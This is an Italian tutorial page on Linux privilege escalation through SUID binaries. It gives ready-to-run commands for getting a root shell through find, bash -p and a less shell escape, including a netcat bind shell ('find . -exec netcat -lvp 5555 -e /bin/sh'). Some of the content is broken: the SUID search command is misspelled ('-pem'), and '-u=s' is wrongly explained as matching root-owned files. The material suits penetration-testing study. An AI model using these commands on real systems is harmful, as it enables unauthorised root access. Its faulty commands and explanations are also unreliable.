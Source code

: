 # Linux Privilege Escalation using SUID Binaries

## Introduzione

SUID (Setu User ID) è una tipologia di permesso che viene affidato ad un file e permette agli utenti di eseguirlo con i permessi dell'utente proprieratio (oltre ai propri).\
Possiamo identificare che un eseguibile è stato settato con il SUID guardando semplicemente i 3 bit dell'utente nei bit
`rwx`.

Digitiamo

`ls -la`

Se è presente una _s_ al posto della _x_, vuol dire che il file ha il bit SUID impostato.


***ATTENZIONE***

***Il seguente articolo è a puro scopo informativo e il suo contenuto non deve essere utilizzato per alcuna attività
illegale.***

***L'autore non è responsabile di alcuna attività malevola causata dalla scorretta interpretazione di questo post.***

## Come trovare i file SUID

Per trovare i file con il SUID basta digitare il seguente comando:

`find / -pem -u=s -type f 2>/dev/null`

Facciamo un po' di chiarezza sulla sintassi del comando:
  * `/` indica che la ricerca partirà dalla cartella root
  * `-perm` indica che vogliamo cercare file con i permessi elencati
  * `-u=s` permette di specificare che la ricerca si vuole effettuare sui file posseduti dal root
  * `-type` permette di indicare la tipologia di file che vogliamo cercare
  * `f` sta ad indicare che vogliamo ricercare file "regolari", quindi non direcotry o file speciali
  * `>` usato per indicare la direzione
  * `/dev/null` è un oggetto filesystem speciale che scarta ogni cosa scritta al suo interno
  
## Funzionamento del SUID

In Linux esistono alcuni comandi utilizzabili da utenti non root per aumentare i propri privilegi.\
Alcuni famosi sono:
  * `bash`
  * `cat`
  * `find`
  * `cp`
  * `echo`
  * `less`
  * `more`
  * `nano`
  * `nmap`
  * `vim`
  
  Per una lista completa basta visitare il seguente link:
  * https://gtfobins.github.io/#+suid
  
  
### Exploit con Find
  
L'utility `find` può essere utilizzata per trovare file nel sistema.\
Ha inoltre l'abilità di eseguire comandi e quindi, se è configurato con i permessi SUID, tutti i comandi eseguiti saranno eseguiti come utente root.

Eseguendo il comando

`find . -exec whoami \;`

Vedremo stampato in console `root`.

È possibile, dato che la maggior parte dei sistemi Linux ha installato `netcat`, elevare la shell in una shell root.\
Per farlo è sufficiente eseguire il comando

`find . -exec netcat -lvp 5555 -e /bin/sh \;`

Connettendoci alla porta 5555 avremo a disposizione una shell root:

`netcat 192.168.1.0 5555`

### Exploit con Bash

Per ottenere una shell root con Bash impostato con il SUID è necessario digitare

`bash -p`

### Exploit con Less

L'utlity Less mostra il contenuto di uno o più file di testo ma può eseguire comandi a shell root.\
Lo stesso principio si applica ad utility come `More`.
I comandi digitati sono 

`less /etc/passwd`

Verrà presentato quindi il contenuto del file.
Basta ora digitare

`!/bin/sh`

per ottenere una shell con permessi root.

## Letture consigliate
Ci tengo a citare alcune pagine da cui ho preso spunto per la scrittura del seguente articolo e altre in cui è possibile approfondire alcuni argomenti citati nel documento.
  * Linux Privilege Escalation by Using SUID: https://medium.com/@gbmbalag/linux-privilege-escalation-by-using-suid-19d37821ed12
  * SUID Executables: https://pentestlab.blog/2017/09/25/suid-executables/
  * Bit rwx: https://it.wikipedia.org/wiki/Permessi_(informatica)
  * SetUID e SetGID: https://it.wikipedia.org/wiki/Setuid_e_setgid
  
